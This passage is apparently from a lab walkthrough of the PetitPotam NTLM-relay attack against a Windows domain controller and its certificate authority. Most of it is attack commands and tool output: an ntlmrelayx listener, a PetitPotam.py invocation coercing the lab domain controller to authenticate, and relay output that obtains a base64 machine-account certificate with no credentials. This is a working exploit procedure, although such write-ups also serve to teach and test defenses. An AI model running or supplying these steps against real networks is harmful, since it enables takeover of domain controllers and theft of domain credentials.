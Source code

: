 ```shell
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections
```
Next, we lauch the PetitTotam against the domain controller `ADVICTIM2012R2` in another shell session.
Command arguments are pretty simple, first argument is the IP of your Kali Linux machine and the second argument is the IP of the domain controller.
```shell
┌──(root💀coolhostname)-[~/pyvirtenv]
└─# python3 PetitPotam/PetitPotam.py 192.168.201.20 192.168.201.9


              ___            _        _      _        ___            _
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:192.168.201.9[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

In the other session you will see the response from the ntlmrelay listener and it will give you the certificate for the machine account `ADVICTIM2012R2$` without any authentication needed.\
\
<span style="color:lime">-------- Oepsie !!! ---------</span>

```shell
[*] Authenticating against http://cavictim2012r2.victim.com as VICTIM/ADVICTIM2012R2$ SUCCEED
[*] SMBD-Thread-4 (process_request_thread): Connection from VICTIM/ADVICTIM2012R2$@192.168.201.9 controlled, attacking target http://cavictim2012r2.victim.com
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://cavictim2012r2.victim.com as VICTIM/ADVICTIM2012R2$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ADVICTIM2012R2$:
MIIRtQIBAzCCEW8GCSqGSIb3DQEHAaCCEWAEghFcMIIRWDCCB48GCSqGSIb3DQEHBqCCB4Awggd8AgEAMIIHdQYJKoZIhvcNAQcBMBwGCiqGSI
```